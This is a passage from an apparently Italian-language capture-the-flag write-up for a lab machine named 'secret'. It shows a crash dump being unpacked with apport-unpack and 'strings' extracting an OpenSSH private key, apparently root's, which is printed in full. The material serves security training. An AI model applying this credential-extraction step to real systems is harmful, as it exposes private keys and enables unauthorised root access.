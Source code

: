 ora coredump salva l'output in `/var/crash`
```bash
dasith@secret:/opt$ ls -la /var/crash/
total 92
drwxrwxrwt  2 root   root    4096 Aug  2 15:01 .
drwxr-xr-x 14 root   root    4096 Aug 13  2021 ..
-rw-r-----  1 root   root   27203 Oct  6  2021 _opt_count.0.crash
-rw-r-----  1 dasith dasith 32071 Aug  2 15:01 _opt_count.1000.crash
-rw-r-----  1 root   root   24048 Oct  5  2021 _opt_countzz.0.crash
dasith@secret:/opt$
```

```bash
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash
Usage: /usr/bin/apport-unpack <report> <target directory>
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/id_rsa
```

Utilizziamo il comando `string` per stampare le stringhe valide di caratteri visibili di Coredump

```bash
dasith@secret:/tmp/id_rsa$ strings /tmp/id_rsa/CoreDump
..<snip>..

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

..<snip>..
```
